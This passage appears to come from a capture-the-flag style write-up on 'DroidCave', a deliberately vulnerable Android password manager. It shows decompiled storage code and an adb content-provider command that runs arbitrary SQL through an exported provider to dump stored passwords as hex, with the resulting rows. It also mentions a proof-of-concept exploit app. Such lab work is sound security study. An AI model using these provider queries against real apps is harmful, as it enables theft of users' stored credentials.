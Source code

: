 Initially, the passwords appeared as **BLOB (Data Bytes)** data instead of readable text. This happens because the app stores passwords as UTF-8 byte arrays:

```kotlin
// When disabling encryption (converting encrypted -> plaintext)
byte[] bytes = encryptionService.decrypt(blob).getBytes(Charsets.UTF_8);
contentValues.put("password", bytes);  // Still stored as bytes, not string

// When enabling encryption (converting plaintext -> encrypted) 
byte[] bArrEncrypt = encryptionService2.encrypt(new String(blob2, Charsets.UTF_8));
contentValues.put("password", bArrEncrypt);  // Encrypted bytes
```

## Solution: Hex Conversion

To extract readable passwords, I used SQL's `hex()` function:

```bash
adb shell content query --uri "content://com.eightksec.droidcave.provider/execute_sql/SELECT%20id,name,username,hex\(password\)%20as%20password_hex,isEncrypted%20FROM%20passwords"
```

This returns password data in **hexadecimal format**, which can then be decoded to plaintext.

```bash
Row: 0 id=1, name=muu, username=muu, password_hex=3132333435, isEncrypted=0
Row: 1 id=2, name=test for 8ksec poc, username=hi 8ksec, password_hex=386B7365636973676F6F6F6F64, isEncrypted=0
```

## POC

With a little help of the glorious, super friend, `claude`, I created a simple POC app which exploits the vulnerability, dumps the data, and directly decode the hex values to plain text again with a simple user interface. You can find it on my `github` (look to your left :"D).

![alt text](2025-09-25_18-48.png)
